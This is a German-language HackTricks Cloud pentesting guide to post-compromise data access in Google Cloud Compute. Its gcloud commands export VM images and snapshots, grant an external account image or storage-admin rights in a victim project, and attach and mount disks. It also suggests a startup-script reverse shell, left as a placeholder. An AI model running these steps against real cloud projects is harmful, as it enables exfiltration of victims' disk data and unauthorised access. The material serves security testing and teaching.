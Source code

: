 # GCP - Compute Nach der Kompromittierung

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys senden.

</details>

## Compute

Für weitere Informationen zu Compute und VPC (Netzwerke) siehe:

{% content-ref url="../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-pentesting/gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportieren & Lokale Überprüfung von Images

Dies würde einem Angreifer ermöglichen, **auf die in bereits vorhandenen Images enthaltenen Daten zuzugreifen** oder **neue Images von laufenden VMs zu erstellen** und auf ihre Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Image in einen Bucket zu exportieren und es dann herunterzuladen und lokal mit dem Befehl einzuhängen:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Vor der Durchführung dieser Aktion benötigt der Angreifer möglicherweise Berechtigungen über den Speicherbucket und auf jeden Fall **Berechtigungen über cloudbuild**, da es sich um den **Dienst** handelt, der gebeten wird, den Export durchzuführen. Darüber hinaus benötigen der Codebuild SA und der Compute SA privilegierte Berechtigungen. Der Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benötigt:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Und der SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Snapshots & Disks lokal exportieren und überprüfen

Es ist nicht möglich, Snapshots und Disks direkt zu exportieren, aber es ist möglich, **einen Snapshot in eine Disk, eine Disk in ein Image zu transformieren** und gemäß dem **vorherigen Abschnitt** dieses Image zu exportieren, um es lokal zu überprüfen.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspektion eines Images zur Erstellung einer VM

Mit dem Ziel, auf die **in einem Image gespeicherten Daten** oder innerhalb einer **laufenden VM** zuzugreifen, von der aus ein Angreifer **ein Image erstellt hat**, ist es möglich, einem externen Konto Zugriff auf das Image zu gewähren:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
und erstellen Sie dann eine neue VM daraus:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Wenn Sie Ihrem externen Konto keinen Zugriff auf das Image geben konnten, könnten Sie eine VM mithilfe dieses Images im Projekt des Opfers starten und **die Metadaten so konfigurieren, dass ein Reverse-Shell ausgeführt wird**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Überprüfen Sie ein Snapshot/Disk, indem Sie ihn an eine VM anhängen

Mit dem Ziel, auf die **in einer Festplatte oder einem Snapshot gespeicherten Daten zuzugreifen, könnten Sie den Snapshot in eine Festplatte, eine Festplatte in ein Image umwandeln und die vorherigen Schritte befolgen.**

Oder Sie könnten einem **externen Konto Zugriff gewähren** über die Festplatte (wenn der Ausgangspunkt ein Snapshot ist, gewähren Sie Zugriff über den Snapshot oder erstellen Sie eine Festplatte daraus):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Fügen Sie die Festplatte** einer Instanz hinzu:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montieren Sie die Festplatte innerhalb der VM:

1. **SSH in die VM**:

```sh
gcloud compute ssh [INSTANZ_NAME] --zone [ZONE]
```
2. **Identifizieren Sie die Festplatte**: Sobald Sie sich in der VM befinden, identifizieren Sie die neue Festplatte, indem Sie die Festplattengeräte auflisten. Normalerweise finden Sie sie als `/dev/sdb`, `/dev/sdc`, usw.
3. **Formatieren und Mounten Sie die Festplatte** (wenn es sich um eine neue oder Roh-Festplatte handelt):
* Erstellen Sie einen Mount-Punkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
* Mounten Sie die Festplatte:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinem externen Projekt Zugriff auf den Snapshot oder die Festplatte geben können**, müssen Sie diese Aktionen möglicherweise **innerhalb einer Instanz im selben Projekt wie der Snapshot/die Festplatte** durchführen.

